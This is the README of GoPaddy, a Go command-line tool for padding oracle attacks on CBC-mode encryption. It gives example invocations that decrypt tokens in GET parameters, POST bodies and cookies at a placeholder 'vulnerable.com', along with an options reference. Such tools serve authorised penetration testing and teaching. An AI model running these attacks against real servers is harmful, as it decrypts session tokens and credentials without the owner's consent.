 # GoPaddy

A fast, Golang, concurrent tool to perform Padding Oracle attacks against CBC mode encryption.

![demo](demo.gif)


### Installation
```console
go get github.com/glebarez/GoPaddy
```

### Examples
- Decipher tokens in GET parameters
```console
GoPaddy -u "http://vulnerable.com/login?token=$" -err "Invalid padding" "u7bvLewln6PJ670Gnj3hnE40L0SqG8e6"
````

- POST data
```console
GoPaddy -u "http://vulnerable.com/login" -post "token=$" -err "Invalid padding" "u7bvLewln6PJ670Gnj3hnE40L0SqG8e6"
````

- Cookies
```console
GoPaddy -u "http://vulnerable.com/login" -cookie "auth=$" -err "Invalid padding" "u7bvLewln6PJ670Gnj3hnE40L0SqG8e6"
````
### Note on tool chaining
All the fancy stuff (logo and progress tracking) is written to STDERR. <br>
Thus you may safely redirect STDOUT to a file, or pipe it with another tool. <br>
Only successfully decrypted values will be written to redirection target.
You can supply (multiple) to-be-decrypted values into STDIN as well.

### Usage
```console
GoPaddy [OPTIONS] [CIPHER]
```

CIPHER:

	to-be-decrypted value (or token) that vulnerable server leaked to you.
	if not provided, values will be read from STDIN
	make sure you tip GoPaddy about the encoding nature with options -e and -r
						(e.g. base64-encoded ciphers)
	

OPTIONS:

-u

	Vulnerable URL (one that produces padding errors).
    Use $ character to define cipher placeholder for GET request.
	Example:
    	if URL is "http://vulnerable.com/?parameter=$"
		then HTTP request will be sent as "http://example.com/?parameter=payload"
		the payload will be filled-in as a cipher, encoded using 
		specified encoder and replacement rules (see options: -e, -r)

-err

	A padding error string as presented by the server.
    HTTP responses will be searched for this string to detect 
	padding oracle. Regex is supported.
    Only response body is matched.

-e

	Encoding, used by the server to encode binary ciphertext in HTTP context.
	This option is used in conjunction with -r option (see below)
	Supported values:
		b64 (standard base64) *default*
		lhex (lowercase hex)

-r

	Character replacement rules that server applies to encoded ciphertext.
	Use odd-length strings, consisting of character pairs: <OLD><NEW>.
	Example:
		If server uses base64, but replaces '/' with '!', '+' with '-', '=' with '~',
		then use -r "/!+-=~"

-cookie

	Cookie value to be decrypted in HTTP requests.
	Use $ character to define cipher placeholder.

-post

	If you need to perform POST requests (instead of GET), 
	then provide string payload for POST request body in this parameter.
	Use $ character to define cipher placeholder.
        Example: 
                  -post "vuln_param=$"
          

-ct

	Content-Type to be set in HTTP requests.
    This option is only effective when -post option is used.
	If not specified, Content-Type will be inferred automatically
    based on data, provided in -post option.
	
-b

	Block length used in encrypting (always 16 for AES)
	Supported values:
		8u
		16 *default*
		32

-p

	Number of parallel HTTP connections established to target server [1-256]
		30 *default*
		
-proxy

	HTTP proxy. e.g. use -proxy "http://localhost:8080" for Burp or ZAP
